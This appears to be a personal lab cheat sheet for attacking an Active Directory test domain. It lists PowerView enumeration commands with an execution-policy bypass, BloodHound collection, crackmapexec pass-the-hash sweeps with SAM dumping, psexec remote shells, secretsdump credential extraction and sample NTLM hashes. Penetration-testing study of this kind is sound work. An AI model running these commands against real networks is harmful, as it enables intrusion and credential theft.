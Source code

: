 **1 Enum: Powerview & Enum**
**2 Enum: Bloodhound**
**3 Post Enum Attack**
**4 **

---

**Powerview.ps1:**
    Place powerview.ps1 on normal W10 machine
    
`powershell -ep bypass #bypass execution policy` 
cd to dir with powerview.ps1
`. .\Powerview.ps1 #runs shell - returns 0 output`

```
get-domainpolicy
(Get-DomainPolicy)."system access" #PW/ACC info
get-netdomain
get-netdomaincontroller
get-netuser | select cn
get-netcomputer -fulldata
get-computerinfo #HW info
get-netgroup -groupname *admin* # admin group names
get-netgroupmember -groupname "Domain Admins"
invoke-sharefinder #show all shares
get-netGPO | select displayname, whenchanged
```
---

**2. Bloodhound:**
```
apt install bloodhound`
sudo neo4j console
click link to open "localhost..."
default creds: neo4j:neo4j 
kali$ bloodhound && then login with new creds.
```

**Download Ingestor:**
    + on W10 download sharphound.ps1
    `> powershell -ep bypass`
    `> . .\sharphound.ps1`
    `> Invoke-BloodHound -collectionmethod All -Domain Carbon.local -Zipfilename File.zip`
    ![bloodhound.zip](Screenshots/create_bloodhound_zip.png)
    + move file.zip first onto baremetal Desktop then to kali VM.
    + import data :: enjoy
    
**Attacking AD - Post-Compromise Attacks:**
    - **Pass-The-Hash:**
        -`apt install crackmapexec` 
        -`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1'` \
        -![PTH_propanol_oxytocinDC_ethyl](Screenshots/Pass_Hash_e_triage.png)
        -`crackmapexec smb 192.168.86.0/24 -d carbon.local -u e.triage -p 'Password!1' --sam` \
        -![PTH_sam](Screenshots/PTH_sam.png) \
        -`psexec.py carbon.local/e.triage:'Password!1'@192.168.86.206`
        -![psexec_loud_shell](Screenshots/psexec_shell_noisy.png)
    - **Secretsdump.py:**
        -`secretsdump.py carbon/e.triage:'Password!1'@192.168.86.206`
        -![secrets](Screenshots/secrets_dump.png)
    - **NTLM hash Example:**
            ```
        Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
        Propylene Malz:1001:aad3b435b51404eeaad3b435b51404ee:3d888ed3f1196c792588c37ddfd32746:::
            ```

    ***You can pass NTLM hashes around but CANNOT pass NTLMv2 hashes***

[log4j_notice](https://community.neo4j.com/t/log4j-cve-mitigation-for-neo4j/48856)\
[powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)\
[hacktricks](https://book.hacktricks.xyz/windows/active-directory-methodology/bloodhound)\
[bloodhoundGH](https://github.com/BloodHoundAD)\
[sharphound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.ps1)